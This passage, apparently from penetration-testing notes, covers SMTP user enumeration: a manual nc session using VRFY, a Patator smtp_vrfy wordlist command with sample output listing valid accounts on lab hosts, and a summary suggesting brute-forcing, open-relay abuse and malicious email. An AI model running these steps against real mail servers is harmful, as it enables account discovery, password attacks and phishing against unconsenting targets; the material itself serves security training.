 ```text
nc 192.168.1.103 25                                                                               

220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY roooooot
550 5.1.1 <roooooot>: Recipient address rejected: User unknown in local recipient table
```

### Using Patator

```text
patator smtp_vrfy host=10.10.10.228 user=FILE0 0=/usr/share/wordlists/fuzzdb/wordlists-user-passwd/names/namelist.txt timeout=15 -x ignore:fgrep='User unknown' -x ignore,reset,retry:code=421
```

Sample Output:

```text
07:29:37 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-04-08 07:29 AEST
07:29:37 patator    INFO -                                                                              
07:29:37 patator    INFO - code  size   time | candidate                          |   num | mesg
07:29:37 patator    INFO - -----------------------------------------------------------------------------
07:29:51 patator    INFO - 252   12    1.004 | backup                             |   135 | 2.0.0 backup
07:30:50 patator    INFO - 252   11    0.002 | games                              |   682 | 2.0.0 games
07:31:11 patator    INFO - 252   9     0.004 | irc                                |   821 | 2.0.0 irc
07:31:17 patator    INFO - 252   10    1.006 | mail                               |   956 | 2.0.0 mail
07:31:32 patator    INFO - 252   10    0.001 | news                               |  1093 | 2.0.0 news
07:31:59 patator    INFO - 252   11    1.002 | proxy                              |  1360 | 2.0.0 proxy
07:32:15 patator    INFO - 252   10    0.001 | root                               |  1425 | 2.0.0 root
07:32:26 patator    INFO - 252   12    1.004 | syslog                             |  1606 | 2.0.0 syslog
07:32:38 patator    INFO - 252   10    1.003 | user                               |  1714 | 2.0.0 user
```

## Summary

- Compile list of enumerated users
  - Can be used to brute force other services or web applications
- Launch client-side attacks using open-relay
- Sending malicious email to a verified user
